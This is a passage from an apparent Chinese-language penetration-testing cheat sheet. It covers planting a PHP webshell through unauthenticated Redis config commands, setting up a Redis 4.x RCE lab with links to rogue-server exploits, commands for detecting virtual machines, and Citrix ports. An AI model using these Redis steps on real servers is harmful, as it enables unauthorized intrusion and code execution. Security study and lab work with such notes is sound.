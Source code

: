     **往 web 物理路径写 webshell**

    当 redis 权限不高时,并且服务器开着 web 服务,在 redis 有 web 目录写权限时,可以尝试往 web 路径写 webshell,执行以下命令
    ```bash
    > config set dir /var/www/html/
    > config set dbfilename shell.php
    > set x "<?php phpinfo();?>"
    > save
    ```
    即可将 shell 写入 web 目录(web 目录根据实际情况)

**Redis 4.x 5.x RCE**
- 简述

    Redis-RCE，该漏洞利用前提是获取 redis 访问权限，也就是基于 redis 未授权访问。

- 搭建环境
    ```bash
    yum install tcl
    wget download.redis.io/releases/redis-4.0.11.tar.gz
    tar zxf redis-4.0.11.tar.gz
    cd redis-4.0.11
    make PREFIX=/usr/local/redis install

    /usr/local/redis/bin/redis-server

    参考 https://mp.weixin.qq.com/s/MSWLqzyNnliX1G7TRYAwVw
    ```

- POC | Payload | exp
    - [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)
    - [Ridter/redis-rce](https://github.com/Ridter/redis-rce)

---

# 虚拟化 & 云平台

**检测虚拟机**
- **windows**

    cmd : `systeminfo`

    Powershell : `get-wmiobject win32_computersystem | fl model`

- **linux**

    `lshw -class system | grep -i VM & grep -i virtual`

    `dmesg | grep -i VM & grep -i virtual`

    `dmidecode -s system-product-name`

    `ls /tmp`

## Citrix_Receiver

`注意一下 1494 和 2598 端口`

